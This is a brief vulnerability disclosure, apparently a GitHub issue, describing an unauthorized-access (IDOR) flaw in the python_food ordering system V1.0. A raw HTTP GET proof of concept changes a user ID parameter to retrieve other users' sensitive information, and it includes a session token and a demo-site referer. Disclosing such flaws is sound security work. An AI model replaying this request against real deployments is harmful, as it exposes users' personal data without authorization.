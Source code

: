 target:https://github.com/geeeeeeeek/python_food version: V1.0

The python_food ordering system has an unauthorized vulnerability that leads to the leakage of sensitive user information. Attackers can access it through https://ip:port/api/myapp/index/user/info?id=1 And modify the ID value to obtain sensitive user information beyond authorization.

POC:

```
GET /api/myapp/index/user/info?id=516 HTTP/1.1
Host: 
Connection: keep-alive
sec-ch-ua: "Chromium";v="124", "Microsoft Edge";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/plain, */*
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
TOKEN: a843da0e5b67ff9043d4a14da18af70c
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://food.gitapp.cn/index/usercenter/userInfoEditView
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
```